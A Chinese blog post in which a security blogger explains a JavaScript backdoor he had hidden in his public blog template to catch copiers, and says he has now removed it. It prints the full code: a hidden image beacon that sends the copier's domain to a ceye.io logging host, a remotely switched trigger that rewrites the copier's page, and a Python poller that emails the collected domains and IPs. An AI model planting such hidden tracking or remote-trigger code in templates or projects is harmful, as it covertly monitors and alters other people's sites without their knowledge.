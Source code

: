 ```yaml
---
layout: post
author: Vulkey_Chen
title: "我为何在博客模板留后门"
date: 2019-01-23
music-id: 
permalink: /archives/2019-01-23/1
description: "博客模板后门"
---
```


# 前言

在前段时间，我在我博客的模板上加入了后门（JavaScript），今天去除，并将思路简单的写出来。

## 为什么留后门呢？

**起因**：在前不久，团队官网模板就被偷走，很让人生气，抄袭者团队（以下简称为：A）没有打一声招呼就拿走了，但可笑的是A并没有在模板中修改JavaScript文件的外链引用，而是直接使用我们的JavaScript文件，所以简单的利用JS修改了一下其主页，提醒了下他，经过后来A主动与我联系并道歉，这件事情才结束～

让我吃惊的是，这件事之后我发现我博客主题模板被拿走了，是的，不止一个哥们。

我在我的博客项目中说明了`https://github.com/gh0stkey/gh0stkey.github.io`

> 个人博客 gh0st.cn 模版来自：https://github.com/heiswayi/the-plain 在原基础上增加了分页、网易云音乐播放器等功能（做了一些排版细节上的调整），拿之前告诉我下，谢谢！

因为博客采用的是Github Pages + Jekyll，所以需要依赖于Github的进行托管，模板也就自然而然的可以直接`git clone`下来，模板也是我进行二次修改的，我觉得起码要尊重下作者，在博客主题或项目之类的进行说明，打声招呼也行，一声不吭的拿走是几个意思......

有个好兄弟说过这样一段话，望周知：

> 参考别人的研究成果著名来源是基本素质，每个人都应该构建一个和谐积极向上的氛围，知道的人不愿意分享的原因就是不被别人认可，互相认可才能进步，现在理解一些师傅的苦衷了，挺悲哀的。请各位在以后的学习生涯上，尊重别人的分享，认可他人，互相感染才能进步。

# 关于后门

我是一个“重度洁癖患者”，不喜欢自己的任何东西带上任何污点。包括对于在自己博客模板中加入后门，这对我来说是一件带有“大污点”的事情，所以思考了很久决定加上后门。

## 后门的构建

### JavaScript 后门

模板后门选择的是JavaScript外链引用，而JavaScript的内容构建步骤如下：

**1.判断是否是自己的域名（这个正则写的不严谨是可以被绕过的，例如：`gh0st.cn.bypass.cn`）：**

```javascript
var host = document.location.host; //获取host
var reg = new RegExp(/gh0st.cn/); //创建正则
var isok = reg.test(host); //匹配结果：False\True
if(!isok){//判断
	...code
}
```

**2.触发式：在一个Web服务上添加了isopen.txt这个文件，内容为NO则不触发，内容为YES则触发。（选择触发式的原因是因为博客上线有本地调试这一环节，如果在本地就触发了，那岂不是得不偿失，没有造成什么直接损害～）**

```javascript
var xhr = new XMLHttpRequest(); //创建XMLHttpRequest
xhr.onreadystatechange=function(){ //请求成功则触发
	if(xhr.responseText == "YES"){ //判断请求网站的内容是否是YES，如果是则进行下一步
		document.write("<center><h1>Please tell me before using my template!By:[Vulkey_Chen]<center><h1>"); //页面内容修改
	}
}
xhr.open("GET","http://webserver/isopen.txt",true); //请求http://webserver/isopen.txt
xhr.send(null);
```

**3.既然选择了触发式的后门，那么就需要知道是谁偷了模板，这里利用的是`ceye.io`这个平台去记录“小偷”的域名和IP之类的东西：**

```javascript
var img = document.createElement("img"); //创建img标签
img.src="http://myblog.你的地址.ceye.io/fuck?domain=" + host; //设置img标签的src属性
img.stytle.display="none"; //设置img标签的样式的display属性为none（表示这个将图片隐藏）
document.body.appendChild(img); //在DOM节点(body)内加入img标签
```

**4.在博客模板的header.html中引用了外部的JS地址`<script src="http://webserver/xxx.js">`**

完整代码如下：

```javascript
var host = document.location.host;
var reg = new RegExp(/gh0st.cn/);
var isok = reg.test(host);
if(!isok){
	var img = document.createElement("img");
    img.src="http://myblog.你的地址.ceye.io/fuck?domain=" + host;
    img.stytle.display="none";
    document.body.appendChild(img);
    var xhr = new XMLHttpRequest();
    xhr.onreadystatechange=function(){
        if(xhr.responseText == "YES"){
        	document.write("<center><h1>Please tell me before using my template!By:[Vulkey_Chen]<center><h1>");
        }
    }
    xhr.open("GET","http://webserver/isopen.txt",true);
    xhr.send(null);
}
```

### Python 监控

利用`ceye.io`这个平台的API去实时监控，并且使用邮件发信通知。

导入Python模块 && 全局变量：

```python
import smtplib,requests,json,urlparse,sys
from email.MIMEText import MIMEText
from email.Utils import formatdate
from email.Header import Header

log = {}
```

**1.163邮件发信：**

```python
def send_mail(domain,ip):
	smtpHost = 'smtp.163.com'
	smtpPort = '25'
	fromMail = '邮箱账户'
	toMail = '邮箱账户,收信方'
	username = '邮箱账户'
	password = '邮箱密码'
	reload(sys)
	sys.setdefaultencoding('utf8')

	subject = u'博客监控到有人偷模板！'
	body = u"[小偷信息]\nDomain: {0} IP: {1}".format(domain,ip)

	encoding = 'utf-8'
	mail = MIMEText(body.encode(encoding),'plain',encoding)
	mail['Subject'] = Header(subject,encoding)
	mail['From'] = fromMail
	mail['To'] = toMail
	mail['Date'] = formatdate()

	try:
		smtp = smtplib.SMTP(smtpHost,smtpPort)
		smtp.ehlo()
		smtp.login(username,password)
		smtp.sendmail(fromMail,toMail.split(','),mail.as_string())
		print u"邮件已发送，监控信息："
		print body
	except Exception,e:
		print e
		print u"发送失败，监控信息："
		print body
	finally:
		smtp.close()
```

**2.ceye.io API调用获取信息，[个人中心](http://ceye.io/profile)可以看见API TOKEN，[API使用方法](http://ceye.io/api)：**

```python
def dnslog_monitor():
	api = "http://api.ceye.io/v1/records?token=你的TOKEN&type=http&filter=myblog"
	r = requests.get(api)
	json_data = json.loads(r.text)
	for i in json_data['data']:
		query = urlparse.urlparse(i['name']).query
		sb_domain = dict([(k, v[0]) for k, v in urlparse.parse_qs(query).items()])['domain']
		sb_ip = i['remote_addr']
		if sb_domain in log:
			pass
		else:
			log[sb_domain] = sb_ip
			send_mail(sb_domain,sb_ip)
```

**3.main函数：**

```python
def main():
	while True:
		dnslog_monitor()
```

## 后门的运行

python脚本挂在服务器跑了一段时间，也发现了一个哥们又拿走了我的博客模板：

![oh,no](https://vulkey.oss-cn-hangzhou.aliyuncs.com/2019-01-23/0.png)

让他"用"了一段时间，便将isopen.txt的内容改为了YES（即触发了后门），其后来也与我联系，并进行了和解。

# 写在最后的话

也是因为“重度洁癖”，决定将模板后门去除。望君尊重技术、分享、作者，共勉！